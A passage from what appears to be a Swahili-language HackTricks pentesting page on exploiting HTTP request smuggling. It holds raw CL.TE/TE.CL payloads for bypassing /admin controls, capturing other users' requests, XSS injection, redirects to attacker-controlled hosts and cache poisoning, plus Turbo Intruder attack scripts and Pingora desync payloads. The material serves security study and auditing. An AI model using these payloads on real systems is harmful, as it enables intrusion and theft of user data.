Wakati mwingine, front-end proxies hutekeleza security measures kwa kuchunguza requests zinazoingia. Hata hivyo, measures hizi zinaweza kukwepwa kwa kutumia HTTP Request Smuggling, na hivyo kuruhusu unauthorized access kwenye restricted endpoints. Kwa mfano, kufikia `/admin` kunaweza kukatazwa externally, huku front-end proxy ikizuia majaribio hayo moja kwa moja. Hata hivyo, proxy hii inaweza kushindwa kukagua embedded requests ndani ya smuggled HTTP request, na hivyo kuacha loophole ya kukwepa restrictions hizi.<sup>[[3]](#references)</sup>

Fikiria mifano ifuatayo inayoonyesha jinsi HTTP Request Smuggling inaweza kutumiwa kukwepa front-end security controls, hasa ikilenga path ya `/admin` ambayo kwa kawaida inalindwa na front-end proxy:

**CL.TE Example**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Transfer-Encoding: chunked

0
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

x=
```
Katika shambulio la CL.TE, header ya `Content-Length` hutumika kwa request ya awali, huku request iliyopachikwa inayofuata ikitumia header ya `Transfer-Encoding: chunked`. Front-end proxy hushughulikia request ya awali ya `POST` lakini hushindwa kukagua request iliyopachikwa ya `GET /admin`, hivyo kuruhusu ufikiaji usioidhinishwa wa njia ya `/admin`.

**TE.CL Mfano**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0

```
Kinyume chake, katika shambulio la TE.CL, ombi la awali la `POST` hutumia `Transfer-Encoding: chunked`, na ombi lililopachikwa linalofuata huchakatwa kwa kuzingatia kichwa cha `Content-Length`. Kama ilivyo katika shambulio la CL.TE, front-end proxy hupuuza ombi la `GET /admin` lililofichwa, na hivyo kutoa ufikiaji wa `/admin` iliyozuiwa bila kukusudia.

### Kufichua uandishi upya wa maombi na front-end <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

Mara nyingi applications hutumia **front-end server** kurekebisha maombi yanayoingia kabla ya kuyapeleka kwa back-end server. Marekebisho ya kawaida yanahusisha kuongeza headers, kama vile `X-Forwarded-For: <IP of the client>`, ili kupeleka IP ya client kwenye back-end. Kuelewa marekebisho haya kunaweza kuwa muhimu, kwa kuwa kunaweza kufichua njia za **bypass protections** au **kufichua taarifa au endpoints zilizofichwa**.<sup>[[3]](#references)</sup>

Ili kuchunguza jinsi proxy inavyobadilisha ombi, tafuta parameter ya POST ambayo back-end inairudisha kwenye response. Kisha, tengeneza ombi ukitumia parameter hii ikiwa ya mwisho, kama ifuatavyo:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```
Katika muundo huu, vipengele vya request vinavyofuata huongezwa baada ya `search=`, ambayo ni parameter inayoakisiwa kwenye response. Uakisi huu utaonyesha headers za request inayofuata.

Ni muhimu kuoanisha header ya `Content-Length` ya request iliyopachikwa na urefu halisi wa maudhui. Inashauriwa kuanza na thamani ndogo na kuiongeza hatua kwa hatua, kwa kuwa thamani iliyo ndogo sana itakata data iliyoakisiwa, huku thamani iliyo kubwa sana inaweza kusababisha request kutoa error.

Technique hii pia inatumika katika muktadha wa vulnerability ya TE.CL, lakini request inapaswa kumalizika kwa `search=\r\n0`. Bila kujali characters za newline, values zitaongezwa kwenye search parameter.

Method hii hutumika hasa kuelewa marekebisho ya request yanayofanywa na front-end proxy, kimsingi ikifanya uchunguzi wa kujielekeza.

### Kukamata requests za users wengine <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

Inawezekana kukamata requests za user anayefuata kwa kuambatisha request maalum kama value ya parameter wakati wa operesheni ya POST. Hivi ndivyo hili linavyoweza kufanywa:<sup>[[3]](#references)</sup>

Kwa kuambatisha request ifuatayo kama value ya parameter, unaweza kuhifadhi request ya client anayefuata:
```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```
Katika hali hii, **comment parameter** imekusudiwa kuhifadhi maudhui yaliyo ndani ya sehemu ya maoni ya post kwenye ukurasa unaoweza kufikiwa na umma. Kwa hiyo, maudhui ya request inayofuata yataonekana kama maoni.

Hata hivyo, technique hii ina vikwazo. Kwa kawaida, inakamata data hadi kwenye parameter delimiter inayotumiwa katika smuggled request. Kwa URL-encoded form submissions, delimiter hii ni herufi `&`. Hii inamaanisha kuwa maudhui yaliyokamatwa kutoka kwenye request ya mtumiaji victim yataishia kwenye `&` ya kwanza, ambayo inaweza hata kuwa sehemu ya query string.

Zaidi ya hayo, ni muhimu kutambua kwamba approach hii pia inafanya kazi na vulnerability ya TE.CL. Katika hali kama hizi, request inapaswa kumalizika kwa `search=\r\n0`. Bila kujali newline characters, values zitaongezwa kwenye search parameter.

### Kutumia HTTP request smuggling kwa ajili ya ku-exploit reflected XSS

HTTP Request Smuggling inaweza kutumiwa ku-exploit web pages zilizo vulnerable kwa **Reflected XSS**, ikiwa na faida kubwa:

- Interaction na target users **haihitajiki**.
- Inawezesha ku-exploit XSS katika sehemu za request ambazo **kwa kawaida hazifikiwi**, kama vile HTTP request headers.<sup>[[3]](#references)</sup>

Katika hali ambapo website iko vulnerable kwa Reflected XSS kupitia User-Agent header, payload ifuatayo inaonyesha jinsi ya ku-exploit vulnerability hii:
```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```
Payload hii imeundwa kutumia vulnerability kwa:

1. Kuanzisha ombi la `POST`, linaloonekana la kawaida, likiwa na header ya `Transfer-Encoding: chunked` kuashiria mwanzo wa smuggling.
2. Kufuatia na `0`, inayoashiria mwisho wa mwili wa ujumbe wa chunked.
3. Kisha, ombi la `GET` lililosmuggle linaingizwa, ambapo header ya `User-Agent` inadungwa script, `<script>alert(1)</script>`, na kuanzisha XSS wakati server inashughulikia ombi hili linalofuata.

Kwa kubadilisha `User-Agent` kupitia smuggling, payload inapita vikwazo vya kawaida vya maombi, hivyo kutumia vulnerability ya Reflected XSS kwa njia isiyo ya kawaida lakini yenye ufanisi.

#### HTTP/0.9

> [!CAUTION]
> Iwapo maudhui ya mtumiaji yanaakisiwa katika response yenye **`Content-type`** kama **`text/plain`**, hali hii huzuia utekelezaji wa XSS. Ikiwa server inatumia **HTTP/0.9, huenda ikawezekana kuipita**!

Toleo la HTTP/0.9 lilitangulia 1.0 na hutumia tu verbs za **`GET`**, na **halijibu kwa** **headers**, bali kwa body pekee.

Katika [**writeup hii**](https://mizu.re/post/twisty-python), hali hii ilitumiwa pamoja na request smuggling na **endpoint yenye vulnerability ambayo hujibu kwa input ya mtumiaji**, ili kusmuggle ombi lenye HTTP/0.9. Parameter iliyoakisiwa katika response ilikuwa na **response bandia ya HTTP/1.1 (yenye headers na body)**, hivyo response ilikuwa na JS code halali inayoweza kutekelezwa ikiwa na `Content-Type` ya `text/html`.<sup>[[10]](#references)</sup>

### Kutumia On-site Redirects na HTTP Request Smuggling <a href="#exploiting-on-site-redirects-with-http-request-smuggling" id="exploiting-on-site-redirects-with-http-request-smuggling"></a>

Applications mara nyingi huelekeza kutoka URL moja kwenda nyingine kwa kutumia hostname kutoka kwenye header ya `Host` katika URL ya redirect. Hili ni jambo la kawaida kwa web servers kama Apache na IIS. Kwa mfano, kuomba folder bila slash ya mwisho husababisha redirect inayojumuisha slash hiyo:<sup>[[3]](#references)</sup>
```
GET /home HTTP/1.1
Host: normal-website.com
```
Matokeo yake:
```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
Ingawa inaonekana haina madhara, tabia hii inaweza kutumiwa kwa kutumia HTTP request smuggling kuwaelekeza watumiaji kwenye tovuti ya nje. Kwa mfano:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
Ombi hili lililoingizwa kwa hila linaweza kusababisha ombi linalofuata la mtumiaji kuelekezwa kwenye website inayodhibitiwa na attacker:
```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
Husababisha:
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
Katika hali hii, ombi la mtumiaji la faili ya JavaScript linatekwa. Mshambulizi anaweza kumdhuru mtumiaji kwa kutoa JavaScript hasidi kama jibu.

### Exploiting Web Cache Poisoning via HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Web cache poisoning inaweza kutekelezwa ikiwa sehemu yoyote ya **front-end infrastructure inaweka content kwenye cache**, kwa kawaida ili kuboresha utendaji. Kwa kubadilisha response ya server, inawezekana **ku-poison cache**.<sup>[[3]](#references)</sup>

Hapo awali, tuliona jinsi response za server zinavyoweza kubadilishwa ili kurudisha hitilafu ya 404 (rejelea [Basic Examples](#basic-examples)). Vilevile, inawezekana kuudanganya server utoe content ya `/index.html` kwa kujibu ombi la `/static/include.js`. Kwa sababu hiyo, content ya `/static/include.js` inabadilishwa kwenye cache na content ya `/index.html`, hivyo kufanya `/static/include.js` isiweze kufikiwa na watumiaji, jambo linaloweza kusababisha Denial of Service (DoS).

Mbinu hii huwa na nguvu zaidi ikiwa **Open Redirect vulnerability** imegunduliwa au ikiwa kuna **on-site redirect to an open redirect**. Vulnerabilities kama hizi zinaweza kutumiwa kubadilisha content ya `/static/include.js` iliyo kwenye cache na kuweka script inayodhibitiwa na mshambulizi, hivyo kuwezesha shambulio kubwa la Cross-Site Scripting (XSS) dhidi ya clients wote wanaoomba `/static/include.js` iliyosasishwa.

Ifuatayo ni mfano wa kutumia **cache poisoning pamoja na on-site redirect to open redirect**. Lengo ni kubadilisha content ya `/static/include.js` kwenye cache ili itoe code ya JavaScript inayodhibitiwa na mshambulizi:
```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
Zingatia request iliyopachikwa inayolenga `/post/next?postId=3`. Request hii itaelekezwa upya kwenye `/post?postId=4`, kwa kutumia **Host header value** kubainisha domain. Kwa kubadilisha **Host header**, attacker anaweza kuelekeza request kwenye domain yake (**on-site redirect to open redirect**).

Baada ya **socket poisoning** kufanikiwa, **GET request** ya `/static/include.js` inapaswa kuanzishwa. Request hii itachafuliwa na request ya awali ya **on-site redirect to open redirect** na kupata maudhui ya script inayodhibitiwa na attacker.

Baadaye, request yoyote ya `/static/include.js` itatoa maudhui yaliyohifadhiwa kwenye cache ya script ya attacker, na hivyo kuanzisha shambulio pana la XSS.

### Kutumia HTTP request smuggling kutekeleza web cache deception <a href="#using-http-request-smuggling-to-perform-web-cache-deception" id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **Kuna tofauti gani kati ya web cache poisoning na web cache deception?**
>
> - Katika **web cache poisoning**, attacker husababisha application ihifadhi maudhui fulani hasidi kwenye cache, na maudhui hayo hutolewa kutoka kwenye cache kwa watumiaji wengine wa application.
> - Katika **web cache deception**, attacker husababisha application ihifadhi kwenye cache maudhui nyeti yanayomhusu mtumiaji mwingine, kisha attacker hupata maudhui hayo kutoka kwenye cache.<sup>[[3]](#references)</sup>

Attacker hutengeneza request iliyosmuggled inayopata maudhui nyeti mahususi kwa mtumiaji. Fikiria mfano ufuatao:
```markdown
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
`` \ `0`\ ``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```
Ikiwa ombi hili lililosmuggled lita-poison cache entry iliyokusudiwa kwa static content (k.m., `/someimage.png`), data nyeti ya victim kutoka `/private/messages` inaweza ku-cached chini ya cache entry ya static content. Kwa hivyo, attacker anaweza uwezekano wa kuretrieve data hizi nyeti zilizocached.

### Kutumia vibaya TRACE kupitia HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

[**Katika post hii**](https://portswigger.net/research/trace-desync-attack) inapendekezwa kwamba ikiwa server ina method ya TRACE enabled, inaweza kuwa inawezekana kuitumia vibaya kupitia HTTP Request Smuggling. Hii ni kwa sababu method hii ita-reflect header yoyote iliyotumwa kwa server kama sehemu ya body ya response. Kwa mfano:<sup>[[8]](#references)</sup>
```
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
```
Itatuma jibu kama vile:
```
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115

TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
```
Mfano wa jinsi ya kutumia vibaya tabia hii ni **kuficha kwanza HEAD request**. Request hii itajibiwa kwa **headers** pekee za GET request (**`Content-Type`** ikiwa miongoni mwazo). Kisha ficha **mara moja baada ya HEAD TRACE request**, ambayo **ita-reflect data iliyotumwa**.\
Kwa kuwa HEAD response itakuwa na `Content-Length` header, **response ya TRACE request itachukuliwa kuwa body ya HEAD response, hivyo ku-reflect data ya kiholela** kwenye response.\
Response hii itatumwa kwa request inayofuata kupitia connection, kwa hiyo inaweza **kutumika kwenye cached JS file, kwa mfano ku-inject arbitrary JS code**.

### Kutumia vibaya TRACE kupitia HTTP Response Splitting <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Kufuatia [**this post**](https://portswigger.net/research/trace-desync-attack) kunapendekeza njia nyingine ya kutumia vibaya TRACE method. Kama ilivyoelezwa, kwa kuficha HEAD request na TRACE request inawezekana **kudhibiti baadhi ya data inayo-reflect kwenye response ya HEAD request**. Urefu wa body ya HEAD request unaonyeshwa kimsingi kwenye Content-Length header na huundwa na response ya TRACE request.<sup>[[8]](#references)</sup>

Kwa hiyo, wazo jipya ni kwamba, kwa kujua Content-Length hii na data iliyotolewa kwenye TRACE response, inawezekana kufanya TRACE response iwe na HTTP response halali baada ya byte ya mwisho ya Content-Length, na kumwezesha attacker kudhibiti kikamilifu request ya response inayofuata (ambayo inaweza kutumika kufanya cache poisoning).

Mfano:
```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```
Itazalisha majibu haya (angalia jinsi jibu la HEAD lilivyo na Content-Length, hivyo kufanya jibu la TRACE kuwa sehemu ya HEAD body, na mara tu Content-Length ya HEAD inapoishia, HTTP response halali huwa imesmuggled):
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50

<script>alert(“arbitrary response”)</script>
```
### Kutumia HTTP Request Smuggling kwa HTTP Response Desynchronisation

Je, umepata vulnerability ya HTTP Request Smuggling na hujui jinsi ya kuitumia. Jaribu njia hizi nyingine za exploitation:


{{#ref}}
../http-response-smuggling-desync.md
{{#endref}}

#### Dangling-byte Response Queue Poisoning

Classic response-queue poisoning mara nyingi hushindwa kwa sababu back-end hutuma **responses mbili mara moja**, front-end husoma kupita kiasi hadi kwenye response ya pili, kisha hu-reset connection (tatizo la **stacked-response**). Workaround imara ni kusmuggle **inner request isiyokamilika** ambayo body yake iliyotangazwa inakosa **byte moja hasa**. Victim anapotuma baadaye `GET /victim...`, byte ya kwanza (`G`) hukamilisha byte inayokosekana kwenye body ya smuggled request, na bytes zinazobaki (`ET /victim...`) huchanganuliwa kando, hivyo kubadilisha mpangilio wa response queue bila race ya awali. Request inayofuata ya attacker inaweza kisha kupokea response ya victim. Hii hufanya kazi vizuri zaidi kwenye back-ends zisizojali method na ni mojawapo ya maboresho ya kisasa na ya kuaminika zaidi ya RQP.<sup>[[22]](#references)</sup>

Kwa variants kamili za upande wa response, content-confusion chains, na escalations za cache-poisoning, pitia response desync page maalum iliyo hapo juu.<sup>[[22]](#references)</sup>

### Mbinu Nyingine za HTTP Request Smuggling

- Browser HTTP Request Smuggling (Client Side)


{{#ref}}
browser-http-request-smuggling.md
{{#endref}}

- Request Smuggling in HTTP/2 Downgrades<sup>[[7]](#references)</sup>


{{#ref}}
request-smuggling-in-http-2-downgrades.md
{{#endref}}

## scripts za Turbo intruder

### CL.TE

Kutoka [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)<sup>[[20]](#references)</sup>
```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```
### TE.CL

Kutoka: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)<sup>[[21]](#references)</sup>
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
## Mitego ya parsing ya Reverse-proxy (Pingora 2026)

Bug kadhaa za Pingora za 2026 ni muhimu kwa sababu zinaonyesha **desync primitives zaidi ya classic CL.TE / TE.CL**. Somo linaloweza kutumika tena ni hili: wakati wowote proxy **inapoacha parsing mapema sana**, **inapofanya `Transfer-Encoding` normalization kwa njia tofauti na backend**, au **inaporudi kwenye kusoma hadi connection ifungwe kwa request bodies**, unaweza kupata FE↔BE desync hata bila utata wa kawaida wa CL/TE.<sup>[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)</sup>

### `Upgrade` passthrough ya mapema

Ikiwa reverse proxy **inabadilika kwenda raw tunnel / passthrough mode mara tu inapoona header ya `Upgrade`**, bila kusubiri backend ithibitishe mabadiliko hayo kwa **`101 Switching Protocols`**, unaweza ku-smuggle request ya pili katika TCP stream hiyo hiyo:
```http
GET / HTTP/1.1
Host: target.com
Upgrade: anything
Content-Length: 0

GET /admin HTTP/1.1
Host: target.com
```
The front-end huchanganua request ya kwanza pekee, kisha forwarding nyingine kama raw bytes. Backend huchanganua bytes zilizoongezwa kama request mpya kutoka kwa IP inayoaminika ya proxy. Hii ni muhimu hasa kwa:

- Kukwepa proxy ACLs, WAF rules, auth checks, na rate limits.
- Kufikia endpoints za ndani pekee zinazoamini reverse proxy IP.
- Kusababisha cross-user response queue poisoning kwenye backend connections zinazotumika tena.

Unapokagua proxies, kila mara test ikiwa **thamani yoyote ya `Upgrade`** inasababisha passthrough, na thibitisha ikiwa switch hutokea **kabla** au **baada** ya backend kujibu kwa `101`.

### Hitilafu za `Transfer-Encoding` normalization + HTTP/1.0 close-delimited fallback

Pattern nyingine muhimu ni:

1. Proxy huona kuwa `Transfer-Encoding` ipo, kwa hivyo huondoa `Content-Length`.
2. Proxy **hushindwa ku-normalize TE kwa usahihi**.
3. Proxy sasa haina **framing** inayotambuliwa na hutumia **close-delimited request bodies** kwa HTTP/1.0.
4. Backend huelewa TE kwa usahihi na huchukulia bytes baada ya `0\r\n\r\n` kama request mpya.

Njia za kawaida za ku-trigger hii:

- **Comma-separated TE list haichanganuliwi**:
```http
GET / HTTP/1.0
Host: target.com
Connection: keep-alive
Transfer-Encoding: identity, chunked
Content-Length: 29

0

GET /admin HTTP/1.1
X:
```
- **Duplicate TE headers hazijaunganishwa**:
```http
POST /legit HTTP/1.0
Host: target.com
Connection: keep-alive
Transfer-Encoding: identity
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: target.com
X:
```
Ukaguzi muhimu wa audit ni:

- Je, front-end inachanganua token ya **mwisho** ya TE, kama inavyohitajika wakati `chunked` iko mwisho?
- Je, inatumia headers zote za `Transfer-Encoding` badala ya ya kwanza pekee?
- Je, unaweza kulazimisha **HTTP/1.0** ili kuanzisha hali ya body ya kusoma hadi muunganisho ufungwe?
- Je, proxy inaruhusu wakati wowote **close-delimited request bodies**? Hii yenyewe ni dalili muhimu ya desync.

Aina hii mara nyingi huonekana kama CL.TE kutoka nje, lakini primitive halisi ni: **TE present --> CL stripped --> no valid framing recognized --> request body forwarded until close**.

### Related cache poisoning primitive: path-only cache keys

Audit hiyo hiyo ya Pingora pia ilifichua anti-pattern hatari ya reverse-proxy cache: kutengeneza cache key **kwa kutumia URI path pekee**, huku ikipuuza **Host**, scheme, au port. Katika deployments za multi-tenant au multi-vhost, hosts tofauti zinaweza hivyo kugongana kwenye cache entry moja:
```http
GET /api/data HTTP/1.1
Host: evil.com
```

```http
GET /api/data HTTP/1.1
Host: victim.com
```
Ikiwa requests zote mbili zina-mapping kwenye cache key ileile (`/api/data`), tenant mmoja anaweza ku-poison content kwa ajili ya mwingine. Ikiwa origin ina-reflect `Host` header katika redirects, CORS, HTML, au script URLs, Host reflection yenye value ndogo inaweza kuwa **cross-user stored cache poisoning**.

Unapokagua caches, thibitisha kwamba key inajumuisha angalau:

- `Host` / utambulisho wa virtual host
- scheme (`http` dhidi ya `https`) wakati tabia inatofautiana
- port wakati applications nyingi zinashiriki cache namespace ileile

## Tools

- HTTP Hacker (Burp BApp Store) – kuonyesha concatenation/framing na tabia ya kiwango cha chini ya HTTP
- https://github.com/PortSwigger/bambdas/blob/main/CustomAction/SmugglingOrPipelining.bambda Burp Repeater Custom Action "Smuggling or pipelining?"
- [https://github.com/anshumanpattnaik/http-request-smuggling](https://github.com/anshumanpattnaik/http-request-smuggling)
- [https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [https://github.com/gwen001/pentest-tools/blob/master/smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)
- [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)
- [https://github.com/Moopinger/smugglefuzz](https://github.com/Moopinger/smugglefuzz)
- [https://github.com/bahruzjabiyev/t-reqs-http-fuzzer](https://github.com/bahruzjabiyev/t-reqs-http-fuzzer): Tool hii ni HTTP Fuzzer inayotumia grammar, na ni muhimu kwa kutafuta tofauti zisizo za kawaida za request smuggling.

## References

- [1] [PortSwigger - HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling)
- [2] [PortSwigger - Finding HTTP Request Smuggling Vulnerabilities](https://portswigger.net/web-security/request-smuggling/finding)
- [3] [PortSwigger - Exploiting HTTP Request Smuggling Vulnerabilities](https://portswigger.net/web-security/request-smuggling/exploiting)
- [4] [HTTP Request Smuggling in Plain English](https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4)
- [5] [GitHub - haroonawanofficial/HTTP-Desync-Attack](https://github.com/haroonawanofficial/HTTP-Desync-Attack/)
- [6] [HTTP Request Smuggling CL-TE](https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html)
- [7] [HTTP Request Smuggling via Higher HTTP Versions (Standoff 365)](https://standoff365.com/phdays10/schedule/tech/http-request-smuggling-via-higher-http-versions/)
- [8] [PortSwigger Research - TRACE Desync Attack](https://portswigger.net/research/trace-desync-attack)
- [9] [Bugcrowd - Unveiling TE.0 HTTP Request Smuggling: Discovering a Critical Vulnerability in Thousands of Google Cloud Websites](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/)
- [10] [Twisty Python (mizu.re)](https://mizu.re/post/twisty-python)
- [11] [PortSwigger Research - Beware the false false‑positive: how to distinguish HTTP pipelining from request smuggling](https://portswigger.net/research/how-to-distinguish-http-pipelining-from-request-smuggling)
- [12] [HTTP/1 Must Die](https://http1mustdie.com/)
- [13] [PortSwigger Research - Browser‑Powered Desync Attacks](https://portswigger.net/research/browser-powered-desync-attacks)
- [14] [PortSwigger Academy - Client‑Side Desync](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync)
- [15] [PortSwigger Research - HTTP/1 Must Die: The Desync Endgame](https://portswigger.net/research/http1-must-die)
- [16] [xclow3n - Breaking Pingora: HTTP Request Smuggling & Cache Poisoning](https://xclow3n.github.io/post/6/)
- [17] [Cloudflare Pingora Security Advisory GHSA-xq2h-p299-vjwv](https://github.com/cloudflare/pingora/security/advisories/GHSA-xq2h-p299-vjwv)
- [18] [Cloudflare Pingora Security Advisory GHSA-hj7x-879w-vrp7](https://github.com/cloudflare/pingora/security/advisories/GHSA-hj7x-879w-vrp7)
- [19] [Cloudflare Pingora Security Advisory GHSA-f93w-pcj3-rggc](https://github.com/cloudflare/pingora/security/advisories/GHSA-f93w-pcj3-rggc)
- [20] [hipotermia.pw - HTTP Desync IDOR (Turbo Intruder CL.TE script)](https://hipotermia.pw/bb/http-desync-idor)
- [21] [hipotermia.pw - HTTP Desync Account Takeover (Turbo Intruder TE.CL script)](https://hipotermia.pw/bb/http-desync-account-takeover)
- [22] [PortSwigger Research - Can AI do novel security research? Meet the HTTP Terminator](https://portswigger.net/research/http-terminator)
- [23] [PortSwigger Research - CRLF-Powered Desync Attacks: Beheading HTTP Streams](https://portswigger.net/research/crlf-powered-desync-attacks)


{{#include ../../banners/hacktricks-training.md}}
